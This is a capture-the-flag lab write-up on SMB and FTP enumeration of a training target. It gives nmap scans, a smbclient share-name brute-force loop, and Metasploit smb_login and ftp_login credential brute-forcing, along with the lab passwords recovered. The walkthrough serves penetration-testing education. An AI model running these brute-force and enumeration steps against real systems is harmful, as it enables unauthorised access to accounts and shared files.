 # Lab 03 – SMB and FTP Enumeration CTF  

This lab focused on enumerating SMB and FTP services on a Linux target. Four flags were hidden behind misconfigured network shares, weak credentials, and service banners.

## Flag 1 – Public SMB share with anonymous access  
**Hint:** *There is a samba share that allows anonymous access. Wonder what's in there!*  

A full TCP port scan of the target revealed SMB services running on ports 139 and 445:  

```bash
nmap -Pn -p- target.ine.local
```

Initial SMB enumeration with Metasploit’s `smb_enumusers` module identified several valid usernames, but no accessible public shares were found through direct listing.  

Using the provided `shares.txt` wordlist, a brute-force loop with `smbclient` was executed to discover valid share names:  

```bash
while read s; do
  out="$(smbclient //192.187.233.3/$s -N       --option='client min protocol=SMB2'       --option='client max protocol=SMB3'       -c 'ls' 2>&1)"
  if [ $? -eq 0 ] && ! echo "$out" | grep -q 'NT_STATUS_'; then
    echo "[+] Share válido: $s"
    echo "$out"
    break
  fi
done < /root/Desktop/wordlists/shares.txt
```

This revealed a share named `pubfiles` that allowed anonymous access. Connecting to it and listing its contents showed a text file containing the first flag:  

```bash
smbclient //192.187.233.3/pubfiles -N
smb: \> get flag1.txt
```

---

## Flag 2 – Private SMB share with weak credentials  
**Hint:** *One of the samba users have a bad password. Their private share with the same name as their username is at risk!*  

The usernames enumerated earlier were saved to a file and tested against the `unix_passwords.txt` wordlist using Metasploit’s `smb_login` module:  

```bash
use auxiliary/scanner/smb/smb_login
set USER_FILE /root/Desktop/smb_users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

This revealed multiple accounts with weak credentials, including one user whose private SMB share matched their username. Connecting to this share provided a text file containing the second flag:  

```bash
smbclient //192.187.233.3/josh -U josh
Password: purple
smb: \> get flag2.txt
```

The file also contained a hint pointing to an FTP service.

---

## Flag 3 – Weak FTP credentials reveal another flag  
**Hint:** *Follow the hint given in the previous flag to uncover this one.*  

A targeted version scan identified port 5554 running an FTP service:  

```bash
nmap -p- -sV target.ine.local
```

Banner grabbing with Metasploit’s `ftp_version` module displayed a message naming three users with weak passwords:  

```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS target.ine.local
set RPORT 5554
run
```

These usernames were saved to a file and tested against the provided `unix_passwords.txt` wordlist using the `ftp_login` module:  

```bash
use auxiliary/scanner/ftp/ftp_login
set USER_FILE /root/Desktop/ftp_users
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
set RPORT 5554
set VERBOSE false
run
```

A valid set of credentials allowed connection to the FTP service, where a file named `flag3.txt` was retrieved:  

```bash
ftp target.ine.local 5554
Name: alice
Password: pretty
ftp> get flag3.txt
```

---

## Flag 4 – Warning banner on SSH login  
**Hint:** *This is a warning meant to deter unauthorized users from logging in.*  

The initial port scan also revealed SSH on port 22. Connecting directly to the service displayed a detailed warning banner that included the final flag:  

```bash
ssh target.ine.local
```

---

## Summary  

1. **Enumerated SMB users** with Metasploit and brute-forced share names to find a public share containing the first flag.  
2. **Brute-forced SMB credentials** to access a private share and locate the second flag, along with a hint to another service.  
3. **Followed the hint** to identify an FTP service, brute-forced its credentials, and retrieved a third flag.  
4. **Inspected the SSH service** directly to find the final flag embedded in its login banner.  

This lab demonstrated how weak credentials, exposed network shares, and verbose service banners can be chained to gain access to sensitive data without exploiting software vulnerabilities.

---

## Tools Used  

- **nmap** – host and service discovery  
- **Metasploit** – SMB/FTP enumeration and brute-force (`smb_enumusers`, `smb_login`, `ftp_version`, `ftp_login`)  
- **smbclient** – interact with SMB shares  
- **ftp** – interact with FTP service  
- **ssh** – retrieve SSH service banners  
